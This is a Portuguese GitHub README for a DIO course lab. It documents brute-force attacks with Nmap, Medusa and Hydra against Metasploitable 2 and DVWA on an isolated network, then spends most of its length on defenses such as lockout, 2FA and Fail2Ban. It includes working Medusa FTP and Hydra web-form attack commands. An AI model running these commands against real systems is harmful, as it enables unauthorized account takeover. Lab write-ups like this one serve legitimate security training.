







# 🛡️ Desafio de Projeto DIO: Simulação de Ataque de Força Bruta com Kali Linux

Este repositório documenta minha experiência realizando o **Desafio de Projeto "Criando um Ataque Brute Force de senhas com Medusa e Kali Linux"**, parte da formação em **Cibersegurança da [DIO](https://dio.me/)**.

O objetivo principal foi colocar em prática os conceitos de **Ethical Hacking** e **Pentesting** que aprendi durante o curso, simulando ataques de força bruta em um ambiente de laboratório totalmente controlado. Utilizei ferramentas do Kali Linux para testar a segurança de serviços vulneráveis no Metasploitable 2 e DVWA (Damn Vulnerable Web Application).

---

## 🎯 Objetivos do Desafio

Durante este projeto, busquei:

- **Compreender na prática** como funcionam os ataques de força bruta em diferentes serviços (FTP, SSH, Web, SMB)
- **Dominar ferramentas** essenciais de auditoria: Kali Linux, Medusa, Nmap e Hydra
- **Documentar todo o processo** de forma clara para compartilhar conhecimento
- **Propor soluções** de segurança para corrigir as vulnerabilidades encontradas
- **Aplicar técnicas éticas** de Pentesting em ambiente seguro e isolado

---

## 🔬 Ambiente de Laboratório

Para garantir que todos os testes fossem feitos com **total segurança**, configurei um ambiente virtualizado completamente isolado usando o Oracle VirtualBox. Assim, nenhum ataque poderia afetar minha rede real ou a internet.

### 📋 Configuração do Ambiente

| Componente | Detalhes |
|------------|----------|
| **Virtualização** | Oracle VirtualBox 7.x |
| **Tipo de Rede** | Host-Only Adapter (totalmente isolada) |
| **Máquina Atacante** | Kali Linux 2024.x |
| **IP do Kali** | `192.168.56.102` |
| **Máquina Alvo** | Metasploitable 2 |
| **IP do Alvo** | `192.168.56.101` |
| **Aplicação Vulnerável** | DVWA (Damn Vulnerable Web App) |

### ⚠️ Aviso Importante sobre Ética e Legalidade

> **ATENÇÃO:** Realizei todos os testes em um ambiente **completamente isolado e controlado**. Realizar ataques a sistemas sem autorização explícita é **CRIME** e pode resultar em processo criminal. Este projeto tem finalidade **exclusivamente educacional** e foi feito em máquinas virtuais propositalmente vulneráveis para aprendizado.

---

## 🚀 Passo a Passo dos Testes

### 1️⃣ Validando a Conectividade e o Isolamento da Rede

Antes de começar os ataques, precisei garantir que o ambiente estava funcionando corretamente e realmente isolado da internet.



**O que eu fiz:**
# Tentei pingar o Google (para confirmar que NÃO tenho acesso à internet)
ping google.com.br

# Testei a comunicação com o Metasploitable (deve funcionar)
ping 192.168.56.101
```

**Resultado:** Como esperado, minha máquina Kali **não conseguiu** acessar a internet (google.com.br falhou), mas conseguiu se comunicar perfeitamente com o Metasploitable (`192.168.56.101`). Isso confirmou que minha rede Host-Only estava funcionando corretamente e totalmente isolada! ✅

---

### 2️⃣ Reconhecimento: Mapeando os Serviços com Nmap

Essa é uma das etapas mais importantes de qualquer teste de penetração. Usei o **Nmap** para descobrir quais serviços estavam rodando no Metasploitable e quais versões eles tinham.



**Comando que executei:**
nmap -sV -p 21,22,80,445,139 192.168.56.101
```

**O que cada parâmetro faz:**
- `-sV`: Detecta as versões dos serviços
- `-p 21,22,80,445,139`: Verifica portas específicas (FTP, SSH, HTTP e SMB)

**O que encontrei:**

| Porta | Serviço | Versão | Observação |
|-------|---------|--------|------------|
| **21/tcp** | FTP | vsftpd 2.3.4 | ⚠️ Versão desatualizada |
| **22/tcp** | SSH | OpenSSH 4.7p1 | ⚠️ Muito antiga |
| **80/tcp** | HTTP | Apache 2.2.8 | ⚠️ Desatualizado |
| **139/tcp** | NetBIOS | Samba smbd 3.x-4.x | ⚠️ Vulnerável |
| **445/tcp** | SMB | Samba smbd 3.x-4.x | ⚠️ Vulnerável |

> 💡 Todos os serviços estavam com versões antigas, o que é esperado já que o Metasploitable 2 foi criado propositalmente para ser vulnerável e servir como ambiente de treinamento.

---

### 3️⃣ Preparação: Criando as Listas de Usuários e Senhas

Para fazer os ataques de força bruta, precisei criar wordlists (listas de possíveis usuários e senhas). Criei listas simples para este laboratório.



**Comandos que usei:**
# Lista de usuários comuns
echo -e 'user\nmsfadmin\nadmin\nroot' > users.txt

# Lista de senhas comuns
echo -e '123456\npassword\nqwerty\nmsfadmin' > pass.txt



**Conferindo se ficou certo:**
# Visualizando o conteúdo dos arquivos
cat users.txt
cat pass.txt
```

**Resultado final:**

| Arquivo | Conteúdo |
|---------|----------|
| **users.txt** | user, msfadmin, admin, root (4 usuários) |
| **pass.txt** | 123456, password, qwerty, msfadmin (4 senhas) |

> 📝 **Observação:** Em testes reais de penetração, usaríamos listas muito maiores como a famosa **rockyou.txt** (que tem milhões de senhas), mas para este laboratório educacional, uma lista pequena já foi suficiente.

---

## 💥 Executando os Ataques

---

### 🎯 Primeiro Ataque: Quebrando o FTP com Medusa

Comecei testando o serviço **FTP** que estava rodando na porta 21 do Metasploitable.



**Ferramenta escolhida:** Medusa

**Comando executado:**
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

**Explicando o comando:**
- `-h 192.168.56.101`: Endereço IP do alvo
- `-U users.txt`: Arquivo com a lista de usuários
- `-P pass.txt`: Arquivo com a lista de senhas
- `-M ftp`: Módulo para atacar FTP
- `-t 6`: Usar 6 threads (tentar 6 combinações ao mesmo tempo)

**🎉 Resultado:**

```
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

Consegui! Encontrei as credenciais:
- 👤 **Usuário:** `msfadmin`
- 🔑 **Senha:** `msfadmin`



**Validando o acesso manualmente:**
ftp 192.168.56.101
# Login: msfadmin
# Senha: msfadmin
# Resposta: 230 Login successful.
```

✅ Funcionou! Consegui entrar no servidor FTP com as credenciais descobertas pelo ataque.

---

### 🎯 Segundo Ataque: Invadindo o DVWA com Hydra

Agora foi a vez de testar o formulário de login web do **DVWA**, uma aplicação propositalmente vulnerável que roda no Metasploitable.



**Ferramenta escolhida:** Hydra (melhor para ataques web)

**Comando executado:**
hydra -L users.txt -P pass.txt 192.168.56.101 http-post-form \
  "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

**Entendendo o comando:**
- `-L users.txt`: Lista de usuários
- `-P pass.txt`: Lista de senhas
- `http-post-form`: Tipo de ataque (formulário web com método POST)
- `/dvwa/login.php`: Página do formulário de login
- `username=^USER^&password=^PASS^`: Campos do formulário (o Hydra substitui ^USER^ e ^PASS^ automaticamente)
- `:Login failed`: Mensagem que aparece quando o login falha

**🎉 Resultado:**

```
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
```

Mais um sucesso! Credenciais encontradas:
- 👤 **Usuário:** `admin`
- 🔑 **Senha:** `password`

> ⚠️ **Reflexão importante:** Incrível (e assustador) como uma senha tão simples como "password" ainda é usada. Isso mostra por que educação em segurança é tão importante!

---

### 🎯 Possibilidades de Outros Ataques

Os mesmos princípios podem ser aplicados para atacar outros serviços como SMB, SSH, etc. O importante é sempre usar as ferramentas certas e entender como cada protocolo funciona.

---

## 🛡️ Como se Proteger Desses Ataques?

Depois de realizar esses ataques, ficou muito claro para mim o quanto sistemas mal configurados são vulneráveis. Aqui estão as principais lições que aprendi e recomendações para se proteger:

### 🔐 Medidas Gerais de Segurança

#### 1. **Senhas Fortes São Essenciais!**
- Usar no mínimo 12 caracteres
- Misturar letras maiúsculas, minúsculas, números e símbolos
- NUNCA usar senhas óbvias como "password", "123456", "admin"
- Trocar senhas regularmente (a cada 90 dias é uma boa prática)
- Usar um gerenciador de senhas (LastPass, 1Password, Bitwarden)

#### 2. **Autenticação em Duas Etapas (2FA)**
Essa é uma das melhores defesas! Mesmo que alguém descubra sua senha, ainda vai precisar do segundo fator de autenticação.
- Usar aplicativos como Google Authenticator ou Authy
- Ativar 2FA em TODOS os serviços importantes
- Especialmente crítico para acesso remoto (VPN, SSH, painéis web)

#### 3. **Princípio do Menor Privilégio**
- Dar apenas as permissões necessárias para cada usuário
- Desabilitar contas padrão (como "admin" com senha "admin")
- Revisar permissões periodicamente

---

### 🔒 Proteções Específicas

#### **Protegendo o FTP**

| O que fazer | Por que é importante | Prioridade |
|-------------|---------------------|------------|
| Desabilitar o FTP se não for necessário | FTP é antigo e inseguro | 🔴 Crítica |
| Usar SFTP ou FTPS | Esses protocolos têm criptografia | 🔴 Crítica |
| Restringir por IP | Permitir acesso apenas de IPs confiáveis | 🟡 Média |
| Monitorar tentativas de login | Detectar ataques em andamento | 🟡 Média |

**Exemplo de configuração mais segura:**
# /etc/vsftpd.conf
anonymous_enable=NO          # Sem acesso anônimo
max_login_fails=3            # Bloquear após 3 tentativas
max_per_ip=2                 # Máximo 2 conexões por IP
```

---

#### **Protegendo Aplicações Web**

| O que fazer | Explicação | Prioridade |
|-------------|-----------|------------|
| Sempre usar HTTPS | Criptografa a comunicação | 🔴 Crítica |
| Bloquear conta após tentativas falhas | Ex: bloquear por 15 min após 5 erros | 🔴 Crítica |
| Implementar CAPTCHA | Dificulta ataques automatizados | 🔴 Crítica |
| Limitar requisições por IP | Ex: máximo 5 tentativas por minuto | 🟡 Média |
| Usar um WAF | Web Application Firewall filtra ataques | 🟡 Média |

**Exemplo prático em PHP:**
```php
// Contar tentativas de login
$_SESSION['tentativas'] = ($_SESSION['tentativas'] ?? 0) + 1;

// Bloquear após 5 tentativas
if ($_SESSION['tentativas'] >= 5) {
    die("Muitas tentativas! Tente novamente em 15 minutos.");
}
```

---

### 📊 Ferramentas que Ajudam a Detectar Ataques

| Ferramenta | O que faz | Tipo |
|------------|-----------|------|
| **Fail2Ban** | Bloqueia IPs que fazem muitas tentativas falhas | IDS/IPS |
| **OSSEC** | Monitora o sistema e detecta invasões | SIEM |
| **Snort/Suricata** | Analisa tráfego de rede em busca de ataques | IDS/IPS |

---

## 📈 Impacto Real de Ataques

Durante minha pesquisa, descobri dados assustadores sobre o custo de ataques bem-sucedidos:

| Estatística | Valor |
|-------------|-------|
| Custo médio de uma violação de dados (IBM 2024) | **US$ 4,88 milhões** |
| Tempo médio para DETECTAR um ataque | **277 dias** |
| Tempo médio para CONTER o ataque | **70 dias** |

Isso mostra que **prevenção é muito mais barata que remediar** depois que o ataque acontece!

---

## 🎓 O Que Aprendi com Este Projeto

### Principais Lições

1. **Senhas fracas são o maior problema** - Não importa o quão segura é a infraestrutura se a senha for "123456"
2. **Múltiplas camadas de segurança salvam vidas** - Um firewall + 2FA + monitoramento é muito mais seguro que só um deles
3. **Manter tudo atualizado é fundamental** - Softwares desatualizados são alvos fáceis
4. **Monitoramento é essencial** - Quanto mais rápido você detecta, menor o estrago
5. **Educação é a base** - Usuários bem treinados são a primeira (e melhor) linha de defesa

### Habilidades que Desenvolvi

- ✅ Configurar ambientes isolados de testes (VirtualBox com rede Host-Only)
- ✅ Dominar ferramentas essenciais: Nmap, Medusa, Hydra
- ✅ Interpretar resultados de scans e ataques
- ✅ Documentar processos técnicos de forma clara
- ✅ Pensar como um atacante (para defender melhor!)

---

## 🏁 Considerações Finais

Este projeto foi uma experiência incrível! Consegui aplicar na prática tudo que aprendi na teoria durante o curso da DIO. Ver as ferramentas funcionando, os ataques tendo sucesso (em ambiente controlado!) e entender o processo completo foi muito gratificante.

O mais importante que aprendi foi que **segurança não é uma coisa única que você faz e pronto**. É um processo contínuo que envolve:
- 🔐 Senhas fortes
- 🛡️ Autenticação multifator
- 🔄 Atualizações constantes
- 📊 Monitoramento ativo
- 🎓 Educação contínua

Como disse o especialista Bruce Schneier:

> "Segurança não é um produto, mas um processo."

Estou muito animado para continuar aprendendo e aplicando esses conhecimentos! 🚀

---

## 🛡️ Medidas de Mitigação e Boas Práticas

Com base nas vulnerabilidades identificadas e exploradas, recomendamos as seguintes medidas de segurança:

### 🔐 Políticas Gerais de Segurança

#### 1. **Política de Senhas Fortes**
- ✅ Mínimo de 12 caracteres
- ✅ Combinação de letras maiúsculas, minúsculas, números e símbolos
- ✅ Proibir senhas comuns (ex: `password`, `123456`, `admin`)
- ✅ Rotação periódica (ex: a cada 90 dias)
- ✅ Utilizar gerenciadores de senhas corporativos

#### 2. **Autenticação Multifator (MFA/2FA)**
- ✅ Implementar 2FA em todos os serviços críticos
- ✅ Utilizar tokens, SMS, ou aplicativos autenticadores (Google Authenticator, Authy)
- ✅ Exigir MFA para acesso remoto (VPN, SSH, Web)

#### 3. **Princípio do Menor Privilégio**
- ✅ Conceder apenas permissões necessárias
- ✅ Desabilitar contas administrativas padrão
- ✅ Revisar permissões periodicamente

---

### 🔒 Proteções Específicas por Serviço

#### **Proteção FTP (Porta 21)**

| Medida | Descrição | Prioridade |
|--------|-----------|------------|
| 🚫 **Desabilitar FTP** | Se possível, remover completamente o serviço | 🔴 Alta |
| 🔐 **Migrar para SFTP/FTPS** | Utilizar protocolos com criptografia | 🔴 Alta |
| 🛡️ **Firewall/ACL** | Restringir acesso apenas a IPs confiáveis | 🟡 Média |
| 📊 **Monitoramento** | Logs detalhados de tentativas de login | 🟡 Média |
| ⏱️ **Rate Limiting** | Limitar tentativas por IP/tempo | 🟢 Baixa |

**Exemplo de configuração vsftpd segura:**
# /etc/vsftpd.conf
anonymous_enable=NO
local_enable=YES
write_enable=YES
chroot_local_user=YES
max_login_fails=3
max_per_ip=2
```

---

#### **Proteção Aplicações Web (Porta 80/443)**

| Medida | Descrição | Prioridade |
|--------|-----------|------------|
| 🔐 **HTTPS Obrigatório** | Forçar SSL/TLS em todas as conexões | 🔴 Alta |
| 🔒 **Account Lockout** | Bloquear após N tentativas falhas (ex: 5) | 🔴 Alta |
| 🤖 **CAPTCHA/reCAPTCHA** | Proteger contra bots e automação | 🔴 Alta |
| ⏱️ **Rate Limiting** | Limitar requisições por IP (ex: 5/min) | 🟡 Média |
| 📝 **Logs de Auditoria** | Registrar todas tentativas de login | 🟡 Média |
| 🛡️ **WAF (Web Application Firewall)** | ModSecurity, Cloudflare, AWS WAF | 🟡 Média |

**Exemplo de implementação de bloqueio de tentativas (PHP):**
```php
// Incrementar contador de falhas
$_SESSION['login_attempts'] = ($_SESSION['login_attempts'] ?? 0) + 1;

// Bloquear após 5 tentativas
if ($_SESSION['login_attempts'] >= 5) {
    $_SESSION['lockout_time'] = time() + 900; // 15 minutos
    die("Conta temporariamente bloqueada. Tente novamente em 15 minutos.");
}
```

---

#### **Proteção SMB (Portas 139/445)**

| Medida | Descrição | Prioridade |
|--------|-----------|------------|
| 🚫 **Desabilitar SMBv1** | Protocolo vulnerável (EternalBlue) | 🔴 Alta |
| 🔐 **Autenticação Forte** | Kerberos, não permitir NTLM v1 | 🔴 Alta |
| 🛡️ **Segmentação de Rede** | VLAN separada para servidores de arquivo | 🟡 Média |
| 🔒 **Criptografia SMB** | Forçar encriptação de tráfego | 🟡 Média |
| 📊 **Monitoramento** | Alertas para tentativas de acesso anormais | 🟡 Média |
| 🚪 **Firewall** | Bloquear portas 139/445 externamente | 🔴 Alta |

**Comando para desabilitar SMBv1 (Windows):**
```powershell
Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol
```

---

### 📊 Ferramentas de Detecção e Monitoramento

Para identificar e responder a ataques de força bruta em tempo real:

| Ferramenta | Função | Tipo |
|------------|--------|------|
| **Fail2Ban** | Bloqueia IPs após tentativas falhas | IDS/IPS |
| **OSSEC** | Sistema de detecção de intrusão (HIDS) | SIEM |
| **Splunk/ELK Stack** | Análise e correlação de logs | SIEM |
| **Snort/Suricata** | Detecção de tráfego malicioso | IDS/IPS |
| **CrowdSec** | Proteção colaborativa contra brute force | IPS |

**Exemplo de configuração Fail2Ban para SSH:**
```ini
[sshd]
enabled = true
port = ssh
filter = sshd
logpath = /var/log/auth.log
maxretry = 3
bantime = 3600
findtime = 600
```

---

## 📈 Análise de Impacto e Riscos

### 🔴 Riscos Identificados

| Vulnerabilidade | Severidade | CVSS | Impacto |
|-----------------|------------|------|---------|
| Senha padrão FTP | 🔴 Crítico | 9.8 | Acesso total ao sistema de arquivos |
| Senha fraca Web | 🔴 Crítico | 9.1 | Comprometimento da aplicação |
| SMB sem proteção | 🟠 Alto | 7.5 | Acesso à rede interna/arquivos |
| Serviços desatualizados | 🟠 Alto | 8.2 | Múltiplos vetores de exploração |

### 💰 Custo de um Ataque Bem-Sucedido

De acordo com o **IBM Cost of a Data Breach Report 2024**:
- 💵 Custo médio de uma violação: **$4.88 milhões USD**
- ⏱️ Tempo médio para identificar: **277 dias**
- 🔧 Tempo médio para conter: **70 dias**

---

## 🎓 Lições Aprendidas

### ✅ Principais Takeaways

1. **Senhas fracas são o elo mais fraco** - Mesmo com infraestrutura robusta, credenciais fracas comprometem toda a segurança
2. **Defesa em profundidade** - Múltiplas camadas de segurança (MFA, firewall, IDS) são essenciais
3. **Atualização é crítica** - Serviços desatualizados são alvos fáceis
4. **Monitoramento ativo** - Detecção precoce minimiza impactos
5. **Educação em segurança** - Usuários treinados são a primeira linha de defesa

### 🔧 Habilidades Desenvolvidas

- ✅ Configuração de ambientes isolados de Pentesting
- ✅ Uso proficiente de ferramentas: Nmap, Medusa, Hydra
- ✅ Análise e interpretação de logs de segurança
- ✅ Documentação técnica de auditorias de segurança
- ✅ Proposta de remediações baseadas em frameworks (NIST, OWASP)

---

## 🏁 Conclusão

Este desafio proporcionou uma **experiência prática valiosa** na execução de auditorias de segurança ofensivas em ambiente controlado. As ferramentas **Nmap**, **Medusa** e **Hydra** demonstraram sua eficácia na identificação e exploração de vulnerabilidades comuns.

Os resultados reforçam a importância crítica de:
- 🔐 **Políticas de senhas robustas**
- 🛡️ **Autenticação multifator**
- 🔄 **Atualização constante de sistemas**
- 📊 **Monitoramento proativo**
- 🎓 **Conscientização em segurança**

> "A segurança não é um produto, mas um processo." - Bruce Schneier

---

## 📚 Materiais de Referência

Recursos que me ajudaram durante este projeto:

### 📖 Documentação das Ferramentas
- [Nmap - Documentação Oficial](https://nmap.org/docs.html)
- [Medusa Password Cracker](http://foofus.net/goons/jmk/medusa/medusa.html)
- [Hydra - THC](https://github.com/vanhauser-thc/thc-hydra)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)

### 🎓 Cursos Recomendados
